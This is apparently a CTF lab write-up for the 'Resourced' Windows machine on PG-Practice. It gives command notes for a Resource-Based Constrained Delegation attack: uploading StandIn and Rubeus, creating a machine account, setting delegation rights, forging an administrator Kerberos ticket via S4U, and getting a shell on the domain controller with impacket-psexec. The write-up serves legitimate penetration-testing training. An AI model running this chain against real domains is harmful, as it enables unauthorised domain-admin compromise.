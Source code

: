 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/xMTCZt5DRB0/0.jpg
layout: post
media_subpath: /assets/posts/2022-08-27-resource-based-constrained-delegation-resourced-pg-practice
tags:
- active directory
- pg practice
- rbcd
- windows
title: Resource-Based Constrained Delegation - Resourced @ PG-Practice
---
```


Additional notes for Resourced, an intermediate difficulty Windows machine on [PG-Practice](https://portal.offensive-security.com/labs/practice) that involves password spraying and an RBCD attack.

{% youtube xMTCZt5DRB0 %} 

## Notes

**RBCD via WinRM & StandIn**

```
# Upload
upload /home/xct/drop/StandIn_v13_Net45.exe StandIn.exe
upload /home/xct/drop/Rubeus.exe Rubeus.exe

# Create machine account
.\StandIn.exe --computer xct --make
Get-ADComputer -Filter * | Select-Object Name, SID

# Write msDS-AllowedToActOnBehalfOfOtherIdentity
.\StandIn.exe --computer ResourceDC --sid S-1-5-21-537427935-490066102-1511301751-4101

# Get Hash (on Kali)
import hashlib,binascii
hash = hashlib.new('md4', "<new machine password from last step>".encode('utf-16le')).digest()
print(binascii.hexlify(hash))

# Impersonate Administrator
.\Rubeus.exe s4u /user:xct /rc4:44714c0e1624e71ac5540fd3aa9c6681 /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /nowrap /ptt

# Convert Ticket & PSExec with Kerberos (on Kali)
cat ticket.b64 | base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=`pwd`/ticket.ccache
klist
impacket-psexec -k -no-pass resourced.local/administrator@resourcedc.resourced.local -dc-ip 192.168.114.175
```

## Resources

- <https://github.com/FuzzySecurity/StandIn>
- <https://github.com/tothi/rbcd-attack>